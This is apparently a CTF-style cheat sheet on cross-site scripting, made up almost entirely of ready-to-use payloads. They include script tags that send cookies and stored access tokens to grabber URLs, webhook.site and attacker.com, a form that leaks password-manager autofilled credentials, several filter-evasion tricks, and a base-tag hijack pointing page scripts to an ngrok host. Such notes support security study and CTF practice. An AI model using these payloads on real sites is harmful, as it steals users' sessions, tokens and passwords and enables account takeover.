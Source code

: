 # XSS (Cross-Site Scripting)
> XSS is a form of injection that enables attackers to inject client-side scripts into web pages viewed by other users.

## OG exploit (cookie grabbing / local storage)
By far the most common type of XSS. Involves loading an external link controlled by attacker with cookie appended as a query, may be a JWT, flag or some other secret.

```
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
<script>fetch('https://webhook.site?'+document.cookie)</script>
```

## Password autofill
We can exploit password managers that automatically fill in HTML input that match `username` and `password` types.

```
<form class="login-form" method="GET" action="/login"> 
	<input type="username" name="username" onchange="fetch('https://attacker.com?username='+this.value)">
	<input type="password" name="password" onchange="fetch('https://attacker.com?password='+this.value)"> 
</form>
```

## Filter evasion!!

### Bypass < & >
Using these special characters: `＜` and `＞` or other similar characters. If you're lucky, the backend will accidentally convert these to actual angle brackets

### Bypass blacklisted js functions
```js
eval('ale'+'rt(1)')
```

### Bypass tag blacklist (no `<script>`)
```
<script x>
<script x>alert(1)<script y>
```

```
<sCrIpt> alert(1) </sCrIpt>
```

## Input is being uppercased
You can make use of HTML entity encodings to bypass the uppercasing. Refer to: `/CTF/tools/Web/html-entity-encoder.py`, which converts your input into HTML entities and URL encodes it.

In addition, you can also take advantage of this. Certain characters (like ß and ﬃ) count as a single character, but become multiple characters when uppercased (SS and FFI). This is useful in very limited contexts, such as when the length of the initial string is used to iterate through the modifed (uppercased) string later on. By spamming the special characters at the start, you can "push" your XSS payload back, so any filters in place doesn't detect/remove your payload. Refer to: [blazing fast](https://smitop.com/p/dctf22-blazingfast/) (TODO: find characters that do the same for lowercasing)

## `<base>` Tag Filter Evasion

```html
</h3> <base href="https://ngrok.io/abc">
```

This payload can be used provided that there are *existing* **relative** script tags on the page.  
What this does is to change the relative root url of the script tag, so the script tags are now pointing to an attacker controlled source.

## Relevant tools
`/CTF/tools/Web/XSS/xssstrike`
